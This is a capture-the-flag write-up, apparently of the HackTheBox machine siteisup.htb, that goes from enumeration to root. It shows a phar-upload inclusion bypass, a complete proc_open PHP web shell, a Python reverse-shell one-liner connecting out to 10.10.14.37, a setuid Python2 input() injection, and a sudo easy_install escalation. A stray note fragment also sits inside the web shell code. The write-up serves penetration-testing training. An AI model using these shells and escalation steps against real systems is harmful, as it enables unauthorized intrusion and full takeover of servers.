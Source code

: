 # Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There is a website hosted on apache and its dns is siteup.htb![](attachment/a85e6db7ced16b19ee4d66c24ff28f3e.png)
Using nc to listen on port 80 and accessing our ip we get:
![](attachment/f5495ef560cbe01cf3ae5b2cdfaf1e94.png)
Nothing much was discovered
Now trying http://127.0.0.1 with debug mode we get
![](attachment/57a6a19547d34cbadeafa0527a305206.png)
Trying to access files with `file:///etc/passwd`
It says hacker detected.
Trying to ping our machine with `ftp://10.10.14.37`
Trying gopher`gopher://10.10.14.37:70`
![](attachment/842905bd2b95f9640c229d292d73bfd3.png)
Now running gobuster we found the dev directory.
![](attachment/8560699c5babf51a1db63a69128f530c.png)
Now trying to run one more gobuster on dev directory![](attachment/9a6f66fd0714fba132d6654cb523bad3.png)
Since it is .git using git-dumper to get source code
Index.php
![](attachment/94218ee945064c232de1af4b7b35871e.png)
Trying to access index.php with burpsuite:
![](attachment/68742be521bec3e78861776a189bb7a4.png)
Checking out git commits using `git log`
![](attachment/f3116a6c4dba0796fbd2fc28d24b2f82.png)
So checking this commit with `git checkout 8812785e31c879261050e72e20f298ae8c43b565`
![](attachment/39fd608f8426e22ef8e87957ada3c48f.png)
So trying the header![](attachment/104d83de505a54ca3dde55d0cca83772.png)
We just get a 200 OK
We notice that there is a vhost so trying dev.siteisup.htb![](attachment/8ea0de61d88efe546fe7af71f5bd8d9e.png)
We get an access forbidden.
But adding the header we get the response.
![](attachment/8dbc51fe61a2da7c62d273019a6d1468.png)
Now we can add a match and replace rule to bypass the WAF.
![](attachment/f4d2200eea8e0bd48c82c646648852e2.png)
Now we notice there is a file upload ![](attachment/64c0a6c775433f1199e52011206959f7.png)
q
![](attachment/3d9498595860efe172065bbb2fa9bbdb.png)
The file gets deleted after checking sooooo we gotta hang. 
Can do this by adding our ip to the test.txt and using `nc -nlvpk 80` to keep the connection.
Now we can access it yaaaaaaayyyy:
![](attachment/dd57962ae58e7d702e9ca5c4df5934d2.png)
But we still need to get around the fact that .php files are blocked.

Here comes the Important trick for bypassing this.
We can get LFI by using a .phar file (can also use any extension like jpeg).
![](attachment/396c5133e5132e85b0d6d5c37d8c7f32.png)
`zip test.phar test.php`
Then to access it:
http://dev.siteisup.htb/?page=phar://uploads/f0217cf843d10cf70a840fb19967a434/test.phar/test
or with burp suite:
![](attachment/594fec642680660f4d9056e36cce33ac.png)
We get a 500 internal error instead of 200 ok 
Now trying a php with echo in it instead of the webshell.

no need to add .php as it is in the code to add![](attachment/751d4105710a6d3b1a19803a86edda56.png)
With echo command we get code execution:
`<?php echo 'YtfNotWorking' ?>`
![](attachment/4225a303aded3c8584e519d5dc98761d.png)
Trying  `<?php phpinfo(); ?>`
![](attachment/e4ddb1ea207814c452b61fbd6c8dfc5e.png)
We get a list of disabled functions
To get a dangerous function we could use this: https://github.com/teambi0s/dfunc-bypasser or we can create our own php code from it.
```php
<?php 
$dangerous_functions = array('pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped',
'pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler',
'pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec',
'pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru',
'link','symlink','syslog','ld','mail','mb_send_mail','imap_open','imap_mail','libvirt_connect','gnupg_init','imagick');

foreach ($dangerous_functions as $function) {
    if (function_exists($function)) {
        echo $function . " is enabled.";
    }
}
?>
```
Now archiving it into dangerous.phar
Using this we get the answer in burp:
![](attachment/bf2826c5704803dbb8e97e79654e883a.png)
proc_open is available

So now using a web shell with proc_open
```php
<?php
function execute_command($cmd) {
    $descriptors = [
        0 => ['pipe', 'r'], 
        1 => ['pipe', 'w'], 
        2 => ['pipe', 'w']  
    ];

    $process = proc_open($cmd, $descriptors, $pipes);

    if (is_resource($process)) {
        
        $output = stream_get_contents($pipes[1]);
        $errors = stream_get_contents($pipes[2]);

        // Close the pipes
        fclose($pipes[0]);
        fclose($pipes[1]);
        fclose($pipes[2]);

        // Close the process
        proc_close($process);

        // Prepare the output for HTML display
        $output = htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
        $errors = htmlspecialchars($errors, ENT_QUOTES, 'UTF-8');
[[IDOR(Insecure Direct Object References)]] module.
        // Output the result in a user-friendly manner
        echo '<pre>';
        echo '<strong>Command:</strong> ' . $cmd . "\n\n";
        echo '<strong>Output:</strong>' . "\n" . $output . "\n";
        echo '<strong>Errors:</strong>' . "\n" . $errors . "\n";
        echo '</pre>';
    }
}

// Check if a command is submitted
if (isset($_POST['command'])) {
    // Get the command from the form submission and execute it
    $command = $_POST['command'];
    execute_command($command);
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>W3bSh3ll by d4rkiZ</title>
</head>
<body>
    <h1>W3bSh3ll by d4rkiZ</h1>
    <form method="POST" action="">
        <input type="text" name="command" placeholder="Enter your command">
        <button type="submit">Send</button>
    </form>
</body>
</html>
```
Now uploading it and accessing it with:
`http://dev.siteisup.htb/uploads/2242456f01bba35834701e734af17d63/shell.phar/shell`
Then using a python shell:
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.37",9003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Now we find 2 files in dev directory:
![](attachment/f9ac2a7d86ef8eb178cebf4fa3a16cb3.png)
Of file types:
![](attachment/54ad92d463e931aadf46364144f29639.png)
Now checking the python file:
![](attachment/7efc1d619fd73d68be8d3e30f6000bc3.png)
It is a python2 file.
Since it is taking an input and has a suid or setuid bit.
We can privesc with python input as the siteisup application calls for the python file:
`__import__('os').system('/bin/bash') `
![](attachment/a7a3c71b3c60e18923f23a67b54d95ca.png)
It worked!

We had to use the ssh key to access user.txt because only setuid was used and not setgid too
Now we notice we can run easy_install as sudo so using gtfobins:
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
We got a root shell:
![](attachment/1d8d8f2367d761cd431900ab5c453912.png)